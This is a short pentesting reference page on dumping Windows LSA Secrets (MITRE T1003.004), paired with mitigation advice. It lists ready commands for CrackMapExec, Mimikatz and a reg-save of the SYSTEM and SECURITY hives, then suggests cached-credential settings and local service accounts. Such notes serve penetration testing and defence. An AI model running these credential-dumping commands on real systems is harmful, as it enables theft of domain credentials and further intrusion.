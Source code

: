 ```yaml
---
description: MITRE ATT&CK, Credential Access, Sub-technique T1003.004
---
```


# LSA Secrets

### Dumping LSA Secrets

Dumping LSA Secrets with CrackMapExec:

```bash
crackmapexec smb $ip -u $user -p $password --lsa
```

Dumping LSA Secrets with Mimikatz:

```bash
lsadump::secrets
```

Dumping LSA Secrets manually and then reading them with Mimikatz

```powershell
reg save HKLM\SYSTEM system & reg save HKLM\security security
lsadump::secrets /system:c:\temp\system /security:c:\temp\security
```

### Mitigations

When researching LSA Secrets on [MITRE](https://attack.mitre.org/techniques/T1003/004/) it appears as though the only mitigation to LSA Secrets being dumped is through detection. However, this is not the case.

The following settings can be configured to remove cached domain credentials from LSA Secrets:

```bash
Cached credential set to 0 on servers
Cached credential set to 1 on workstations
```

When cleartext credentials are retrieved from LSA Secrets it is due to the credentials being stored for a service (E.g., creating a service with a custom user account).

To mitigate this issue, avoid using a domain account for the service. Best practice is to avoid using a domain user account for services. Rather, create a local account to run the service. If specific domain user rights are needed then create an account with the _specific_ rights required. It should also be stated to **never** use a domain administrator account for a service.

### References

{% embed url="https://www.ired.team/offensive-security/credential-access-and-credential-dumping/dumping-and-cracking-mscash-cached-domain-credentials" %}

{% embed url="https://www.sentinelone.com/blog/windows-security-essentials-preventing-4-common-methods-of-credentials-exfiltration" %}

{% embed url="https://www.passcape.com/index.php?cmd=details&id=23&section=docsys" %}

